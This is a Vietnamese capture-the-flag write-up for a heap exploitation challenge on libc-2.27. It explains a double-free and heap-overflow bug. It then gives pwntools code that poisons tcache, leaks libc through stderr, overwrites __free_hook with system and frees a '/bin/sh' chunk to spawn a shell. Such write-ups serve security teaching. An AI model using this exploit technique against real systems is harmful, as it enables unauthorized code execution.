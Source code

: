 **1.Find bug**
  - ![image](https://user-images.githubusercontent.com/113702087/220030510-859dae24-8668-41e8-9bde-a9f9eaab5c06.png)
  - PIE và Fortify tắt.
  - ![image](https://user-images.githubusercontent.com/113702087/220022145-4c49d73e-b46c-4791-91fe-aef24fdd12c1.png)
  - chương trình thực hiện nhập name tại 0x602060 và thực thi read data trên heap được cấp phát tại 0x602088, tuy nhiên giới hạn của việc free là 8 lần.
  - Tại hàm info ta có thể in ra name.
  - do libc-2.27 nên ta có thể double free đê gây lỗi uaf.
  - ![image](https://user-images.githubusercontent.com/113702087/220031133-961eedfe-ec72-4ba1-bf49-77ac6223b435.png)
  - ta có thể thấy rằng khi tại hàm Malloc() nó thực hiện read_input(ptr, uint(size - 16)) nếu size < 16 thì có thể read với size lớn gây lỗi heap overflow.
  - Dựa vào các lỗi trên ta có thể leak libc = cách đưa addr libc vào tcache và giải phóng name lúc đó name -> libc, lúc này ta dùng info để leak libc ra. Khi có libc thì có thể overwrite free_hook thành system
  - ta sẽ chọn địa chỉ name+16 là fake chunk và libc là stderr

**2. Exploit**
 ### Leak libc
  - Để đưa libc và fakechunk về cùng 1 chunk thì ta cần control size = 0x90 của chunk, với fakechunk thì khá dễ vì ta có thể control nó bằng cách nhập từ name
  - `r.sendafter(b'Name', b'\x41'*8 + p64(0x91))` tạo size cho fakechunk
  - Tạo 4 chunk và giải phóng nó.
  ```python
  malloc(size_, b'a')
  freeandinfo(b'2')
  freeandinfo(b'2')
  malloc(size_ + 24, b'aaaa')
  freeandinfo(b'2')
  malloc(size_ + 40, b'aaaa')
  freeandinfo(b'2')
  malloc(size_ + 56, b'aaaa')
  freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220078906-f8d92564-7224-4794-896f-5c5904c9fdc3.png)
  - chunk đầu ta sẽ dùng double free, overflow nó để control các chunk dưới, và chứa lbic_stderr+30 để control size libc_stderr
  - chunk 2 ta đưa stderr, cấp phát vào stderr và thay đổi nó thành libc_stderr-0x30 thay đổi stderr ở chunk 1
  - chunk 3 đưa fakechunk vào để có thể free vào chunk mong muốn ( ở đây là chunk chứa libc)
  - chunk 4 cũng là fakechunk để ta có thể control được ptr vì chương trình đã giới hạn việc free.
  - setup các chunk
  ```python
  payload = p64(stderr) + b'\x00'*16 + p64(0x31) + p64(stderr) + b'\x00'*32 + p64(0x41) + p64(name_addr + 16) + b'\x00'*48 + p64(0x51) + p64(name_addr + 16)

  malloc(size_, payload)
  malloc(size_ + 24, b'a')
  malloc(size_ + 24, b'\x50')
  malloc(size_, b'a')
  malloc(size_, b'a')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220079920-00e4a33c-1fc8-4b36-a435-32a44e3e3f61.png)
  - ![image](https://user-images.githubusercontent.com/113702087/220081175-9c7c37e6-f9d1-4c71-999e-2e3d788289c4.png)
  - thay đổi size libc_stderr và đưa vào tcache_c
  ```python
  payload = b'\x00'*40 + p64(0x91)
  malloc(size_, payload)
  malloc(size_ + 24, b'\x87')
  freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220081883-10198633-7bb4-4635-b8cb-092b55a79ee3.png)
  - Sau khi đưa libc_stderr vào tcache ta free(fakechunk) tcache 0x90: `fakechunk->libc_stderr`
  ```python
  malloc(size_ + 40, b'a')
malloc(size_ + 40, b'a')
freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220082718-35ee95cc-6b5b-40b2-8d54-055eb2a4ebec.png)
  ```python
  freeandinfo(b'3')
r.recvuntil(b'Name :')
r.recv(16)
out = r.recv(8)
libc.address = u64(out) - 0x3ec680
print(hex(libc.address))
  ```
 ### Overwrite free_hook và lấy shell
  ```python
  malloc(size_ + 56, b'a')
malloc(size_ + 56, p64(libc.sym['__free_hook']))
malloc(size_ + 120, b'a')
malloc(size_ + 120, p64(libc.sym['system']))

malloc(size_ + 112, b'/bin/sh')
freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220083309-d75596e1-2280-48f3-9445-32870d89c9f7.png)
  - ![image](https://user-images.githubusercontent.com/113702087/220083419-b37a7326-e416-4023-aaca-f1cbb5b3303e.png)

